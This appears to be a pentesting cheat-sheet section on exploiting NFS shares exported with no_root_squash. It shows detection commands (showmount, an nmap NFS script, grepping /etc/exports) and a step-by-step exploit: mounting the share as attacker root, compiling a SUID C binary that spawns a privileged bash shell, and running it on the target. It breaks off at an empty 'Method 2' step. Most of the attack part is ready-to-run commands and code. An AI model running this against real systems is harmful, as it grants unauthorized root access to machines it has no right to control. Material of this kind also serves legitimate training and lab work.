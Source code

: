 ```bash
```

##  NFS Root Squashing Exploitation

### Understanding NFS and Root Squashing

- Network File System (NFS) allows remote systems to mount directories over a network
- Root squashing is a security feature that prevents remote root users from having root privileges on mounted shares
- When the `no_root_squash` option is set on an NFS share, a remote root user can create files with root ownership

### Detection

```bash
# Check for mountable shares from Kali
showmount -e <target_IP>

# Nmap script to check for NFS shares
nmap -sV --script=nfs-showmount <target_IP>

# Check exports file on target
cat /etc/exports
# Look for: no_root_squash
grep -E "no_root_squash|no_all_squash" /etc/exports
```

### Exploitation When Target Has no_root_squash

When the exports file shows:

```
/ *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Use this attack path:

```bash
# On attacker system (must be root)
mkdir /tmp/nfs_mount
mount -t nfs <target_IP>:/shared/directory /tmp/nfs_mount
cd /tmp/nfs_mount

# Method 1: Create SUID binary
cat > root.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash -p");
  return 0;
}
EOF

gcc root.c -o root
chmod +s root
# As root on local system, set SUID bit on the binary

# On target system
/shared/directory/root
# The -p flag maintains EUID permissions

# Method 2: Simple SUID bash copy
```